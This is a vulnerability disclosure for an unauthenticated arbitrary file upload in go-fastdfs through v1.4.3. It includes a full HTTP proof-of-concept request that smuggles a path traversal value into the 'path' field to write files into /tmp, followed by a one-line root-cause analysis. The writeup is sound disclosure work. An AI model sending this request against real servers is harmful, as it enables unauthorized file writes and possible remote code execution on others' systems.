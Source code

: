 go-fastdfs Arbitrary file upload vulnerability

go-fastdfs is a distributed file system based on the http protocol. It is based on the design concept of avenues to simplicity. All simple designs make its operation and maintenance and expansion easier. It has high performance, high reliability, no center, Maintenance-free and other advantages. There is an arbitrary file upload vulnerability in go-fastdfs version 1.4.3 and before. Unauthenticated attackers can directly upload arbitrary files to the system to achieve the purpose of remotely executing commands.

https://github.com/sjqzhang/go-fastdfs/

version go-fastdfs <= v1.4.3


```
POST /group1/upload HTTP/1.1
Host: ip:8080
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="test"
Content-Type: application/octet-stream

success
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../tmp
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--

```

<img width="1389" alt="image" src="https://user-images.githubusercontent.com/65865031/226976630-6704931b-ec10-4bd6-aeae-91be8285a54a.png">

Vulnerability analysis：

This place does not filter the path, resulting in path traversal

<img width="885" alt="image" src="https://user-images.githubusercontent.com/65865031/226981639-051864a1-b218-444d-99dc-48bee1858fb8.png">
